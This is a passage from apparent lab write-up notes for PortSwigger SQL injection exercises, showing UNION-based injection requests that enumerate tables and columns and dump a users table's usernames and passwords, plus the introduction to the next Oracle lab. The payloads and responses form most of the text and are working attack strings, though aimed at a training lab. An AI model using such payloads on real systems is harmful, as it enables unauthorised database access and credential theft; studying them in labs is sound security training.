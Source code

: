 
2. determine how many of them support stroing values:
**request3**
> GET /filter?category=Lifestyle'+UNION+SELECT+'test',+'test'+FROM+information_schema.tables--+-  HTTP/1.1
response:
> HTTP/1.1 200 OK

both fields support strings

3. find table names:
> GET /filter?category='+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--+- HTTP/1.1
response:
> HTTP/1.1 200 OK
><th>users_ioqfhm</th>

4. find columns:
> GET /filter?category='+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns--+- HTTP/1.1
response:
> <th>superuser</th>
> <th>password_zoxvmu</th>
><th>username_ynicnn</th>

5. combine all to a payload:
**request**
>GET /filter?category='+UNION+SELECT+username_ynicnn,+password_zoxvmu+FROM+users_ioqfhm--+- HTTP/1.1
response:
>HTTP/1.1 200 OK
><tbody>
><tr>
><th>carlos</th>
><td>66krsxvv5zmw878b42bu</td>
></tr>
><tr>
><th>wiener</th>
><td>qzwsqtvpcmdcjqbrcpwz</td>
></tr>
><tr>
><th>administrator</th>
><td>1b3u58ppxvw198b7ozu4</td>

Lab solved!

# ***10. SQL injection attack, listing the database contents on Oracle***
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

 The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
